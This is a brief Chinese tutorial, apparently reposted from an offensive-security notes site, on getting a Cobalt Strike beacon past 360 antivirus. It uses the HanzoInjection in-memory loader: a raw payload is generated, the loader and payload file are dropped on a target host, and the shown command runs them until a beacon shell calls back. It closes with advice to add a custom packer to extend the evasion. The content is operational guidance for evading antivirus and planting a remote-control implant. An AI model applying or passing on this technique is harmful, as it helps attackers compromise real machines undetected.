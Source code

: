 # Cobalt Strike beacon 免杀上线 [ hanzoInjection ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/29.html](http://book.iwonder.run/Tools/Cobalt Strike/29.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 第一步,由于 hanzoInjection [ 也可以粗暴的把它理解为加载器 ] 是直接在内存中来注入执行 payload,首先,我们需要先准备好一个二进制数据格式的 payload,即"raw",如下

![image](img/9a50ac4b26e4483dd551110e481515a3.png)

> 第二步,将 HanzoInjection.exe 和 cs.bin 同时丢到目标机器上执行

```
# HanzoInjection.exe -e cs.bin 
```

![image](img/39e2169e26a0ca3e2d83c6b2d31f4e24.png)

> 稍等片刻,发现 beacon shell 被正常弹回,如下

![image](img/96be9777ce6a70dda993e9aa02dc31f5.png)

> 360 此时仍然是无视的,可能过不太久 HanzoInjection.exe 肯定会被杀,这都再正常不过,不过加个自己的壳应该又能继续坚持用一段时间,此处多说一句,除了那种带签名的 payload,所有的免杀都只是暂时的,绝无一劳永逸的说法

![image](img/dde4a81471a17134f355ce24cef34f21.png)

